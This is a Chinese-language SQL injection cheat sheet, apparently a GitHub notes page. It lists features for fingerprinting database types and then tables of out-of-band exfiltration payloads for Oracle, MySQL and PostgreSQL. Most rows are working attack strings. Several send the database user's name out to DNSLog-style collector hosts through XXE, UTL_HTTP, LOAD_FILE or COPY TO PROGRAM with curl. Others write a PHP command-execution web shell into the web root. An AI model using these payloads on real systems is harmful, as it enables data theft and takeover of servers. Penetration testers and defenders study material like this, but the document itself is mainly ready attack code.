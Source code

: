 ### 1. 判断数据库类型方法

| 特征项         | MySQL                 | Oracle                  | SQL Server      | PostgreSQL     | SQLite             |
| :------------- | :-------------------- | :---------------------- | :-------------- | :------------- | :----------------- |
| **注释**       | `#`, `-- `, `/* */`   | `--`, `/* */`           | `--`, `/* */`   | `--`, `/* */`  | `--`, `/* */`      |
| **字符串连接** | `CONCAT()`, `'a' 'b'` | `||`                    | `+`             | `||`           | `||`               |
| **版本查询**   | `@@version`           | `v$version`             | `@@VERSION`     | `VERSION()`    | `sqlite_version()` |
| **系统表**     | `information_schema`  | `all_tables`            | `sysobjects`    | `pg_catalog`   | `sqlite_master`    |
| **当前用户**   | `USER()`              | `SELECT user FROM dual` | `SYSTEM_USER`   | `CURRENT_USER` | -                  |
| **时间延迟**   | `SLEEP()`             | `DBMS_LOCK.SLEEP()`     | `WAITFOR DELAY` | `pg_sleep()`   | -                  |
| **错误前缀**   | "You have an error"   | "ORA-"                  | "Msg"           | "ERROR:"       | "SQLite error:"    |

### 2. SQLI数据外带 | **OOB**

#### 一、注入优先级

	普通回显注入 > 报错回显注入 > 数据外带回显注入 > 盲注（传统布尔/排序盲注 > RAND()排序盲注 > 时间盲注）

#### 二、不同数据库外带方式

| 数据库     | 外带方式           | 核心函数 / 技术            | 示例 Payload                                                 | 说明与限制                                                   |
| ---------- | ------------------ | -------------------------- | ------------------------------------------------------------ | ------------------------------------------------------------ |
| **Oracle** | XML 外部实体 (XXE) | `XMLType` + `EXTRACTVALUE` | ```sql<br>SELECT EXTRACTVALUE(xmltype('<?xml version="1.0"?><!DOCTYPE root [<!ENTITY % a SYSTEM "http://'||(SELECT user)||'.x.ceye.io/">%a;]>'), '/l') FROM dual;<br>``` | ✅ 支持 HTTP 外带，Oracle 能发外部请求，最常见方式。需要允许外网访问。 |
|            | UTL_HTTP           | `UTL_HTTP.REQUEST`         | ```sql<br>SELECT UTL_HTTP.REQUEST('http://'||(SELECT user)||'.x.ceye.io') FROM dual;<br>``` | ⚠️ 默认关闭；需要 DBA 权限开启网络访问（ACL）                 |
|            | DBMS_LDAP          | `DBMS_LDAP.INIT`           | ```sql<br>SELECT DBMS_LDAP.INIT((SELECT user || '.x.ceye.io'), 80) FROM dual;<br>``` | ✅ 支持 DNS 外带，适用于 DNSLog；默认可能启用                 |
|            | HTTPURITYPE        | `HTTPURITYPE.GETCLOB()`    | ```sql<br>SELECT HTTPURITYPE('http://'||(SELECT user)||'.x.ceye.io').getclob() FROM dual;<br>``` | ⚠️ 依赖版本与配置；可能报权限错误                             |

---

| 数据库    | 外带方式          | 核心函数 / 技术              | 示例 Payload                                                 | 说明与限制                                 |
| --------- | ----------------- | ---------------------------- | ------------------------------------------------------------ | ------------------------------------------ |
| **MySQL** | DNS 外带          | `LOAD_FILE` + DNSLog         | ```sql<br>SELECT LOAD_FILE(CONCAT('\\\\',(SELECT user),'\\.x.dnslog.cn\\abc'));<br>``` | ✅ DNS 请求能触发外带；适合无回显盲注       |
|           | Lib_mysqludf_http | 安装插件 `lib_mysqludf_http` | ```sql<br>SELECT http_get('http://x.dnslog.cn/?data='||(SELECT user));<br>``` | ⚠️ 需要上传 UDF 扩展库，有一定门槛          |
|           | INTO OUTFILE      | `SELECT ... INTO OUTFILE`    | ```sql<br>SELECT '<?php system($_GET["cmd"]); ?>' INTO OUTFILE '/var/www/html/shell.php';<br>``` | ⚠️ 不算外带，但能落地写 shell；需文件写权限 |

---

| 数据库         | 外带方式      | 核心函数 / 技术       | 示例 Payload                                                 | 说明与限制                                |
| -------------- | ------------- | --------------------- | ------------------------------------------------------------ | ----------------------------------------- |
| **PostgreSQL** | DNS 外带      | `COPY ... TO PROGRAM` | ```sql<br>COPY (SELECT user) TO PROGRAM 'curl http://`user`.x.ceye.io';<br>``` | ⚠️ 高版本已禁用，需 superuser 权限         |
|                | `dblink` 外带 | `dblink_connect_u`    | ```sql<br>SELECT * FROM dblink_connect_u('host=attacker ...')<br>``` | ⚠️ 默认未安装，需 superuser，原理类似 SSRF |
|                | 插件写 shell  | `COPY` 写文件         | ```sql<br>COPY (SELECT '<?php ... ?>') TO '/var/www/html/1.php';<br>``` | ⚠️ 需写权限，不属于 OOB，但常用于落地利用  |

---